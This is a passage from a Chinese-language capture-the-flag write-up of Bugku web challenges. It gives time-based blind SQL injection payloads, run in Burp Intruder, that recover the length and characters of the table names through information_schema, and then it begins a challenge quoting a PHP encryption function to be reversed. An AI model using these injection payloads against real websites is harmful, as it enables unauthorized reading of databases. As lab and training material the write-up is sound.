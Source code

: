   虽然达成目的了，但是这种方法的效率是非常低的，因为如果在对第一个字符的第一次测试中就知道结果是a,那么实际上是不用继续测试'bcdefg...'的。但是机器不知道我们拿到需要的结果还会继续测试。因此需要找找其他方法来完成这个猜测的过程。

  第三步，继续按照套路猜测表名称，我们先试试所有表名称共有多少个字符:
  `1' and (select case when ((select length(group_concat(table_name)) from information_schema.tables where table_schema=database())=§1§) then sleep(5) else 1 end) and '1'='1`
  话说没有一个检查SQL语句的编辑器的话，在burp里面写这些内容真容易弄错.

  因为我们在语句中用了`group_concat(table_name)`,所以在不知道有多少个表的情况下，所有表名称加上group_concat函数自带的逗号共有14个字符。

  ![INSERT_INTO注入](../../imgs/Bugku/Web/gnome-shell-screenshot-UBPP4Z.png)

  第四步，一个个猜测表名称的字符内容。

  `1' and (select case when (select ('§a§'=substr((select group_concat(table_name) from information_schema.tables where table_schema=database()) from §1§ for 1))) then sleep(5) else 1 end)  and '1'='1`

  最后就可以拿到flag了

## 37. PHP_encrypt_1(ISCCCTF)

  太难了。
  需要照着一个加密函数，写出对应的解密函数。

  ```php
  function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
  ```